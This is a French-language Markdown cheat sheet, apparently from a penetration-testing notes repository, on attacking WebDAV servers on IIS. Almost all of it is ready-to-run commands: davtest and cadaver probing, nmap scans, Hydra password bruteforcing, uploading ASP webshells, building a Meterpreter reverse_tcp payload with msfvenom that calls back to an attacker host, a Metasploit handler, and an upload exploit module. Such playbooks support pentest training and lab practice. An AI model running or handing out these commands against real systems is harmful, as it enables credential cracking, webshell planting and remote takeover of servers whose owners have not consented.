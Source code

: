 # 📤 Énumération WebDAV

[← Retour à la table des matières](../README.md)

## Davtest
```bash
davtest -url targetIP/directorieSecret
davtest -url targetIP/directorieSecret -u user -p password
davtest -auth bob:password_123321 -url targetIP/directorieSecret
```

## Cadaver (avec authentification)
```bash
cadaver targetIP/directorieSecret
cadaver targetIP/directorieSecret -u user -p password
# Une fois connecté :
put /usr/share/webshells/asp/webshell.asp
```

## IIS WebDAV - Exploitation complète

### Reconnaissance initiale
```bash
# Scan initial pour identifier IIS
nmap -sV -sC targetIP
nmap -sV -p 80 --script=http-enum targetIP
```

### Bruteforce si authentification requise → [📖 Guide Hydra](../06-tools/hydra.md)
```bash
# Hydra pour bruteforce WebDAV
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt targetIP http-get /webdav/
```

### Test des capacités WebDAV
```bash
# Test avec davtest
davtest -url http://targetIP/webdav
davtest -auth user:password -url http://targetIP/webdav
```

### Upload de webshells
```bash
# Connexion avec cadaver
cadaver http://targetIP/webdav
# Dans cadaver :
put /usr/share/webshells/asp/webshell.asp
```

### Localisation des webshells
```bash
# Répertoire des webshells
ls /usr/share/webshells/
# Contient : asp/, aspx/, cfm/, jsp/, perl/, php/
```

## Meterpreter via WebDAV

### Génération du payload → [📖 Guide MSFVenom](../06-tools/msfvenom.md)
```bash
# Génération avec msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f asp > shell.asp
```

### Upload et handler
```bash
# Upload via cadaver
cadaver http://targetIP/webdav
put /path/to/shell.asp

# Handler Metasploit
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST KALI_IP
set LPORT 1234
run
```

### Module MSF automatique
```bash
# Module tout-en-un
use exploit/windows/iis/iis_webdav_upload_asp
set HTTPUSERNAME username
set HTTPPASSWORD password
set RHOSTS targetIP
set PATH webdav/metasploit.asp
run
```